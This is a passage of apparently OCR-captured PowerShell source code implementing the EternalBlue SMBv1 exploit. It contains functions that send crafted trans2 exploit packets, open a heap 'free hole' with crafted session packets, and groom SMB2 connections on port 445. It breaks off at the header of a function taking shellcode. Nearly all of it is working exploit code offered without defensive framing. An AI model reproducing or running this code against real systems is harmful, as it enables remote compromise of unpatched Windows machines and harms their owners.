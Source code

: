     $sock.Send($nt_trans_pkt) | out-null

    $raw, $transheader = smb1_get_response($sock)

    #initial trans2 request
    $trans2_pkt_nulled = make_smb1_trans2_exploit_packet $smbheader.tree_id $smbheader.user_id "eb_trans2_zero" 0

    #send all but the last packet
    for($i =1; $i -le 14; $i++) {
        $trans2_pkt_nulled += make_smb1_trans2_exploit_packet $smbheader.tree_id $smbheader.user_id "eb_trans2_buffer" $i

    }

    $trans2_pkt_nulled += make_smb1_echo_packet $smbheader.tree_id  $smbheader.user_id
    $sock.Send($trans2_pkt_nulled) | out-null

    smb1_get_response($sock) | Out-Null

}


function smb1_free_hole($start) {
   $client = New-Object System.Net.Sockets.TcpClient($Target,445)

    $sock = $client.Client
    client_negotiate($sock) | Out-Null
    if($start) {
        $pkt =  make_smb1_free_hole_session_packet (0x07,0xc0) (0x2d,0x01) (0xf0,0xff,0x00,0x00,0x00)
    }
    else {
        $pkt =  make_smb1_free_hole_session_packet (0x07,0x40) (0x2c,0x01) (0xf8,0x87,0x00,0x00,0x00)
    }

    $sock.Send($pkt) | out-null
    smb1_get_response($sock) | Out-Null
    return $sock
}

     function smb2_grooms($Target, $grooms, $payload_hdr_pkt, $groom_socks){


         for($i =0; $i -lt $grooms; $i++)
         {
            $client = New-Object System.Net.Sockets.TcpClient($Target,445)

             $gsock = $client.Client
             $groom_socks += $gsock
             $gsock.Send($payload_hdr_pkt) | out-null

         }
        return $groom_socks
     }




function smb_eternalblue($Target, $grooms, $Shellcode) {

